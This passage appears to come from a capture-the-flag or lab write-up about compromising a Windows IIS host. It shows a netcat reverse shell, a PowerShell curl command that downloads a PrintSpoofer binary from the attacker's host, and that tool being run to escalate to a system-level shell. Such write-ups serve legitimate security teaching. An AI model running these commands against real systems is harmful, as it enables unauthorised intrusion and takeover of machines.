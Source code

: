 ![Web shell](../img/fire_2.png)

We then created a reverse shell using the same netcat pre-built binary: 

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.95.158] 49683
Microsoft Windows [Version 10.0.17763.1999]
(c) 2018 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv> 
```

Finally, we decided to use the [Print Spoofer technique](https://github.com/itm4n/PrintSpoofer) in order to obtain and reuse a system user token to escalate our privileges by using `SeImpersonate`:

```bash
c:\windows\system32\inetsrv> cd C:\Windows\Temp

c:\windows\system32\inetsrv> powershell curl http://10.10.14.65:8080/printspoof.exe -o pspoof.exe
                             
C:\Windows\Temp>pspoof.exe -i -c powershell.exe
pspoof.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
```